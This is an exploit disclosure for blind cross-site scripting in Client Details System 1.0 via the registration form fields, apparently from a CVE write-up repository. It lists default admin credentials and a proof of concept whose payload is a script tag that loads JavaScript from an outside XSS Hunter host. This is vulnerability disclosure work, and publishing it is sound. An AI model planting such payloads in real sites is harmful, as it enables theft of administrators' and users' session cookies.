 # Client_Details_System-Blind_Cross_Site_Scripting
+ **Exploit Title:** Client_Details_System-Blind_Cross_Site_Scripting
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Client_Details_System 1.0 allows Blind Cross-Site Scripting via parameters 'fname', 'lname', 'email' and 'contact' in "/clientdetails/admin/regester.php". Client_Details_System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Login with `admin`:`client123`
+ Go to Create Users: "http://localhost/clientdetails/admin/regester.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Fill the form parameters 'fname', 'lname', 'email' and 'contact' with the payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![7-1](https://github.com/h4md153v63n/CVEs/assets/5091265/51ded0aa-4808-4b61-896e-e8e99a315a73)
<br>
<br>
![7-2](https://github.com/h4md153v63n/CVEs/assets/5091265/51f60b4d-0fe7-478c-884c-f16060b25fea)
<br>
<br>
![7-3](https://github.com/h4md153v63n/CVEs/assets/5091265/f195eb57-e2c2-4d70-b81f-ba46819c6ab4)
<br>
<br>
![7-4](https://github.com/h4md153v63n/CVEs/assets/5091265/588bd279-e6dd-4350-a2ce-5bb4f8097be4)
<br>
<br>
![7-5](https://github.com/h4md153v63n/CVEs/assets/5091265/1460887d-799b-4999-8f0f-3433393fe77b)
<br>
<br>
![7-6](https://github.com/h4md153v63n/CVEs/assets/5091265/ff4effde-880b-49bc-8aba-b8cc3885b0f6)
